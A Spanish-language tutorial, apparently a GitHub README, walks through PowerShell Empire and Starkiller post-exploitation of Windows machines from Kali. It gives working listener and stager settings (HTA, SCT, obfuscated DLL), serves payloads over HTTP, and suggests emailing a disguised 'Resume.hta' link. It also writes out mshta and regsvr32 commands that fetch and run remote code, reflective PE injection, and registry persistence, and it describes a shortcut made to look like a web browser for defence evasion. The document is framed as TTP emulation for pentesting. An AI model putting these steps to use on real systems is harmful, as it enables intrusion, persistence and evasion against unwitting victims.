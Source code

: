 # Powershell Empire: Post-Explotación en redes Windows con Kali linux

-Powershell Empire, es un framework de post-explotación basado en el despliegue de agentes que se ejecutan en las máquinas comprometidas y son gestionados desde una consola bajo el control del pentester.
-Consiste en la integración de los frameworks conocidos de pentesting con powershell.
-Se centra únicamente en Python con comunicaciones criptográficamente seguras con el complemento de una arquitectura flexible.

# Componentes de PowerShell Empire

1.Listeners: Es un proceso que escucha una conexión desde la máquina que estamos atacando. Esto ayuda a Empire a enviar el “paquete” a la computadora del atacante.
2.Agentes: Es un programa que mantiene una conexión entre tu computadora y el host comprometido.
3.Stagers: Es un fragmento de código que permite que nuestro código malicioso se ejecute a través del agente en el host comprometido.
4.Módulos: Esto es lo que ejecuta nuestros comandos maliciosos, que pueden recopilar credenciales y escalar nuestros privilegios como se mencionó anteriormente.

## Prerequisitos
1. Considerar los S.O compatibles que han sido testeados para el uso de Empire:
-Kali Linux Rolling (En nuestro caso estaremos utilizando este S.O)
-Ubuntu 20.04
-Debian 10

> Verificar con:
> uname -r

2. Actualizar todas las dependencias y paquetes del S.O
> sudo apt update 

3. Tener instalado Python como mínimo la versión 3.8 (Se recomiendo la v3.8 o v3.9)
> Verificar con:
> python --version

4. Para los S.O Kali instalar la versión utilizando sudo (las nuevas versiones de Kali requieren correr “sudo” antes de empezar Empire.


## Instalación Empire
1. Instalar la ultima versión de Empire corriendo lo siguiente:
> sudo apt install powershell-empire

El resultado debe ser el siguiente:
![image](https://i.imgur.com/DAawQol.jpg)

## Inicializar Empire
1. Inicializar servidor empire
> sudo powershell-empire server

![image](https://i.imgur.com/SuNG6Of.jpg)

2. Inicializar cliente empire
> sudo powershell-empire client

![image](https://i.imgur.com/X2cQsBp.jpg)

## Instalación Starkiller
1. Instalar Starkiller para tener GUI
> cd /opt
> sudo wget https://github.com/BC-SECURITY/Starkiller/releases/download/v1.0.0/starkiller-1.0.0.AppImage
> sudo chmod +x starkiller-1.0.0.AppImage

![image](https://i.imgur.com/rFlVBTU.jpg)

## Inicializar Starkiller (GUI)
1. Iniciar Starkiller
> cd /opt/starkiller
> ./starkiller-1.0.0.AppImage

![image](https://i.imgur.com/UfK06Mk.jpg)

## Creación de componentes PowerShell Empire
1.Crear Listener
> Type: http
> Name: http
> Host: http://10.0.0.187
> Port: 80
> BindIP: 10.0.0.187
> Jitter: 0.5
> StagingKey: empireadmin

![image](https://i.imgur.com/uqNHCBy.jpg)

2.Crear Stagers

-Generar Stager HTA:

>Type: windows/hta
Listner: http
Base64: True
Language: powershell
Outfile: /tmp/Resume.hta

-Generar Stager SCT:

> Type: windows/launcher_sct
Listner: http
Base64: True
Language: powershell

-Generar Stager DLL:

> Type: windows/dll
Listner: http
Arch: x86
Language: powershell
OutFile: /tmp/launcher.dll
Obfuscate: True
ObfuscateCommand: Token\String\1

Resultado de la creación de Stagers:

![image](https://i.imgur.com/htm5bqB.jpg)

3.Descargar Stagers en /tmp y usarlos con SimpleHTTPServer
> cd /tmp
> python -m SimpleHTTPServer 8080

![image](https://i.imgur.com/JurGJ9P.jpg)

##Emulación de TTP's
1. Acceso Inicial
Enviamos un link de descarga o mail http://192.168.126.129/Resume.hta

2. Ejecución
-Ejecutar Resume.hta
> mshta http://10.0.0.187:8080/Resume.hta

![image](https://i.imgur.com/lZCeoZq.jpg)

-Migrar a otro proceso con reflective PE Injection
> ver procesos: ps
> usemodule code_execution/invoke_reflectivepeinjection
> set ProcID: <processID>
> set DllPath: /tmp/launcher.dll

![image](https://i.imgur.com/Ap8ghR1.jpg)
  
3. Agente Activo
 
![image](https://i.imgur.com/9Q5JA25.jpg)
  
4. Descubrimiento
  
> whoami
usemodule situational_awareness/host/antivirusproduct 
usemodule situational_awareness/host/get_uaclevel 
usemodule situational_awareness/host/winenum

![image](https://i.imgur.com/8DjskSO.jpg)

5. Persistencia
> usemodule persistence/userland/registry
> set Listener: http

![image](https://i.imgur.com/loz2sRu.jpg)

6. Evasión de defensa
  
-Ejecución con regsvr32 y scripting. Se crea un acceso directo enmascarango un navegador web con target:
  
> C:\Windows\System32\cmd.exe /c "C:\Windows\System32\regsvr32.exe /s /n /u /i:http:\192.168.126.129:8080\launcher.sct scrobj.dll"

![image](https://i.imgur.com/maJN0cy.jpg)

#### De lo presentado anteriormente se puede apreciar que el malware (.exe/dll/hta) permite construir cualquier ataque ya que se tiene acceso a win32.
